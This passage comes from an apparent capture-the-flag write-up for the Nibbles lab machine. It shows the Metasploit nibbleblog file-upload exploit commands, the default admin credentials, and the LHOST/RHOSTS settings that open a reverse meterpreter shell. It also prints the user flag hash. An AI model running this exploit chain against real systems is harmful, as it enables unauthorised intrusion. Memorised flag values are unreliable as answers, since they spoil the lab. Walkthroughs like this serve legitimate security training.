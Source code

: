 ![[Pasted image 20250115154203.png]]

It seems to be a metasploit module, so we will head into metasploit to exploit the application. We use the following commands:

```
msfconsole
use exploit/multi/http/nibbleblog_file_upload
```

However, we are required to be authenticated in order to exploit the application, this means provide username and password. To do so we need to find some credentials within the application but before we do so we will check the default credentials which are:

```
Username: admin
Password: nibbles
```

Providing these credentials to the metasploit module like the following, we are able to obtain a shell on the system.

```
set RHOSTS 10.10.10.75
set LHOST 10.10.16.16
set TARGETURI /nibbleblog
set USERNAME admin
set PASSWORD nibbles
exploit
```

Now we have a meterpreter shell on the system:

![[Pasted image 20250115154928.png]]

Typing `shell` we are able to obtain a shell on the system.
Heading to the home directory for nibbler we see the user.txt file which reads the following:

```
cat user.txt
79b6879ae93884e50a27758b11d65a27
```

## Shell as root

Additionally, in the same directory we see a `personal.zip` file by unzipping the file we see a script that reads the following:

```
                  ####################################################################################################
                  #                                        Tecmint_monitor.sh                                        #
                  # Written for Tecmint.com for the post www.tecmint.com/linux-server-health-monitoring-script/      #
                  # If any bug, report us in the link below                                                          #
                  # Free to use/edit/distribute the code below by                                                    #
                  # giving proper credit to Tecmint.com and Author                                                   #
                  #                                                                                                  #
                  ####################################################################################################
#! /bin/bash
# unset any variable which system may be using

# clear the screen
```